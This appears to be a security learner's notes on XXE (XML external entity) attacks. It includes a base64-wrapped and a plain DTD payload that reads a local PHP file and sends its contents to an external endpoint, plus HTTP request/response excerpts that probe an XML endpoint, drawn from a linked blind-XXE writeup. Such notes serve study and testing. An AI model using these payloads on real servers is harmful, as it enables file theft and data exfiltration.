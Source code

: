 ```php
php://filter//resource=data://text/plain;base64,PCFFTlRJVFkgJSBkYXRhIFNZU1RFTSAicGhwOi8vZmlsdGVyL2NvbnZlcnQuYmFzZTY0LWVuY29kZS9yZXNvdXJjZT1maWxlOi8vL0Q6L3BhdGgvaW5kZXgucGhwIj4NCjwhRU5USVRZICUgcGFyYW0xICc8IUVOVElUWSBleGZpbCBTWVNURU0gImh0dHA6Ly90YXJnZXQvZW5kcG9pbnQucGhwP3NpZD1bc2Vzc2lvbl9pZF0mIzM4O2tleT14eGUmIzM4O3ZhbD0lZGF0YTsiPic+
```

<br>

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=file:///D:/path/index.php">
<!ENTITY % param1 '<!ENTITY exfil SYSTEM "http://target/endpoint.php?sid=[session_id]&#38;key=xxe&#38;val=%data;">'>
```

not able to understand full read it when you have time 

-----

# -> XXE next level (big writeup) [link](https://honoki.net/2018/12/12/from-blind-xxe-to-root-level-file-read-access/)

```
GET /interesting/ HTTP/1.1
Host: server.company.com
```

```
HTTP/1.1 404 Not Found
Server: nginx
Date: Tue, 04 Dec 2018 10:08:18 GMT
Content-Type: text/xml
Content-Length: 189
Connection: keep-alive

<result>
<errors>
<error>The request is invalid: The requested resource could not be found.</error>
</errors>
</result>
```

It Look like simple error page change GET to POST content-type to xml

```
POST /interesting/ HTTP/1.1
Host: server.company.com
Content-Type: application/xml
Content-Length: 30

<?xml version="abc" ?>
<Doc/>
```

```http
<result>
<errors>
<error>The request is invalid: The request content was malformed:
XML version "abc" is not supported, only XML 1.0 is supported.</error>
</errors>
</result>
```
